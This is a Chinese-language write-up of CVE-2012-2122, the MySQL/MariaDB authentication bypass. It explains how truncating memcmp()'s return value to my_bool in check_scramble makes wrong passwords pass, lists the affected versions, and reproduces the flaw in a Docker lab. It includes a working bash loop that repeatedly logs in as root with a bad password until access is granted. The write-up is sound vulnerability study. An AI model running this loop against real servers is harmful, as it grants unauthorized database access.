


# CVE-2012-2122 CWE-287 MySQL 身份认证绕过

## 漏洞背景

- **C 语言的隐式类型转换**：在 C 语言中，当一个 `int` 类型的值被转换为 `char` 类型时，会发生截断。具体来说，`int` 类型通常占用 4 个字节（32 位），而 `char` 类型通常占用 1 个字节（8 位）。转换时，只会保留 `int` 值的最低字节（即最后 8 位）。比如 256（十进制），其二进制表示为 `00000001 00000000`（假设 `int` 是 16 位，实际通常是 32 位）。当这个值被转换为 `char` 时，只会保留最低字节 `00000000`，因此结果为 0
- **memcmp()**：C 标准库中的一个函数，用于比较两个内存块的内容，函数逐字节比较两个内存块的前 `n` 个字节，直到找到不相等的字节或比较完所有 `n` 个字节为止。函数原型：`int memcmp(const void *s1, const void *s2, size_t n);`，`s1`：指向第一个内存块的指针，`s2`：指向第二个内存块的指针，`n`：要比较的字节数。
  - 如果返回值小于 0，表示 `s1` 的前 `n` 个字节小于 `s2` 的前 `n` 个字节。
  - 如果返回值等于 0，表示 `s1` 的前 `n` 个字节与 `s2` 的前 `n` 个字节相等。
  - 如果返回值大于 0，表示 `s1` 的前 `n` 个字节大于 `s2` 的前 `n` 个字节。

## 漏洞原理

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库

## 漏洞定位

在 **sql/password.c** 文件的第 **515** 行， check_scramble 函数是MySQL数据库中用于验证客户端提供的密码散列值是否正确。它通过一系列的哈希运算和加密操作，将客户端提供的散列值与服务器端计算出的预期散列值进行比较，从而判断密码是否正确。

- `scramble_arg`：客户端提供的用于加密的随机数。
- `message`：客户端提供的密码散列值。
- `hash_stage2`：服务器端存储的密码的第二阶段哈希值。
- `hash_stage2_reassured`：通过客户端提供的随机数和密码信息，经过一系列哈希和加密操作生成的验证哈希值

```c
/*
    Check that scrambled message corresponds to the password; the function
    is used by server to check that recieved reply is authentic.
    This function does not check lengths of given strings: message must be
    null-terminated, reply and hash_stage2 must be at least SHA1_HASH_SIZE
    long (if not, something fishy is going on).
  SYNOPSIS
    check_scramble()
    scramble     clients' reply, presumably produced by scramble()
    message      original random string, previously sent to client
                 (presumably second argument of scramble()), must be 
                 exactly SCRAMBLE_LENGTH long and NULL-terminated.
    hash_stage2  hex2octet-decoded database entry
    All params are IN.

  RETURN VALUE
    0  password is correct
    !0  password is invalid
*/

my_bool
check_scramble(const uchar *scramble_arg, const char *message,
               const uint8 *hash_stage2)
{
  SHA1_CONTEXT sha1_context;
  uint8 buf[SHA1_HASH_SIZE];
  uint8 hash_stage2_reassured[SHA1_HASH_SIZE];

  mysql_sha1_reset(&sha1_context);
  /* create key to encrypt scramble */
  mysql_sha1_input(&sha1_context, (const uint8 *) message, SCRAMBLE_LENGTH);
  mysql_sha1_input(&sha1_context, hash_stage2, SHA1_HASH_SIZE);
  mysql_sha1_result(&sha1_context, buf);
  /* encrypt scramble */
    my_crypt((char *) buf, buf, scramble_arg, SCRAMBLE_LENGTH);
  /* now buf supposedly contains hash_stage1: so we can get hash_stage2 */
  mysql_sha1_reset(&sha1_context);
  mysql_sha1_input(&sha1_context, buf, SHA1_HASH_SIZE);
  mysql_sha1_result(&sha1_context, hash_stage2_reassured);
  return memcmp(hash_stage2, hash_stage2_reassured, SHA1_HASH_SIZE);
}
```

其中的 `memcmp()` 函数返回一个整数，表示 hash_stage2 的前 n 个字节分别小于、等于或大于 hash_stage2_reassured 的前 n 个字节。如果两者相等，说明密码正确，返回0；否则返回非零值，表示密码错误

`memcmp()` 返回的是一个整数，而 `check_scramble` 函数的返回值类型被声明为 `my_bool`， `memcmp()` 的返回值直接被用作返回语句的值。所以这里将`memcmp()` 的返回值隐式转换为 `my_bool` 类型（即 `char` 类型）。如果 `memcmp` 返回的非零值的最后一个字节为0，那么整个值在转换为 `char` 后会变成 0，从而导致函数返回 0（表示密码正确）。

如果 `memcmp()` 返回的 `int` 值的最低字节为 0，那么在转换为 `char` 时，整个值就会变成 0。例如，假设 `memcmp()` 返回的值是 256（十进制），其二进制表示为 `00000001 00000000`（假设 `int` 是 16 位，实际通常是 32 位）。当这个值被转换为 `char` 时，只会保留最低字节 `00000000`，因此结果为 0，表示密码正确

由于 hash_stage2_reassured 具有随机性，在多次尝试后总会找到一个值，在与 hash_stage2 做比较时返回的 `int` 值的最低字节为 0，导致被认为密码正确

## 影响版本

低于 5.1.63 的 Oracle MySQL 5.1.x、低于 5.5.24 的 5.5.x 和低于 5.6.6 的 Oracle MySQL 5.6.x 中，以及低于 5.1.62 的 MariaDB 5.1.x、低于 5.2.12 的 5.2.x、低于 5.3.6 的 5.3.x 和低于 5.5.23 的 5.5.x 中

## 环境搭建

启动 Docker 环境，MySQL 版本为 5.5.23，监听 3306 端口，管理员账户是 root ，密码是123456



## 漏洞复现

Docker 中的 MySQL 运行在 192.168.233.153 目标机上，现在在另一台攻击机命令行执行命令

1. 直接使用 mysql 命令连接攻击机上的 MySQL 可以看到如果不输入密码会报身份认证失败；

   ```bash
   mysql -u root -p -h 192.168.233.153 -P 3306
   ```

2. 在不知道密码的情况下，在攻击机中运行如下命令，在一定数量尝试后便可成功登录进 MySQL。这里`<target-ip>`为运行 MySQL 的目标主机的 IP 地址。

   ```bash
   for i in `seq 1 1000`; do mysql -u root -P3306 -password=bad -h <target-ip> 2>/dev/null;done
   ```




## EXP分析

```bash
for i in `seq 1 1000`; do mysql -u root -P3307 -password=bad -h <target-ip> 2>/dev/null;done
```

`for i in seq 1 1000; do … done` 循环将执行 mysql 命令，`seq 1 1000` 生成从 1 到 1000 的数字序列。
在每次迭代中，尝试使用指定的用户名、密码和主机连接到 MySQL 数据库。
如果连接成功，将会打印相关的数据库连接信息。
如果连接失败（如密码错误或服务器不可达），由于 stderr 被重定向到 /dev/null，因此不会显示错误信息，循环继续执行下一个尝试。

根据漏洞定位部分的分析，由于 hash_stage2_reassured 具有随机性，在多次尝试后总会找到一个值，在与 hash_stage2 做比较时返回的 `int` 值的最低字节为 0，导致被认为密码正确

## 参考链接

[sql/password.c in Oracle MySQL 5.1.x before 5.1.63, 5.5.x... · CVE-2012-2122 · GitHub Advisory Database](https://github.com/advisories/GHSA-4qx9-mwf7-7cx8)

[CVE-2012-2122: A Tragically Comedic Security Flaw in MySQL | Rapid7 Blog](https://www.rapid7.com/blog/post/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/)

[MySQL Bugs: #64884: logins with incorrect password are allowed](https://bugs.mysql.com/bug.php?id=64884)
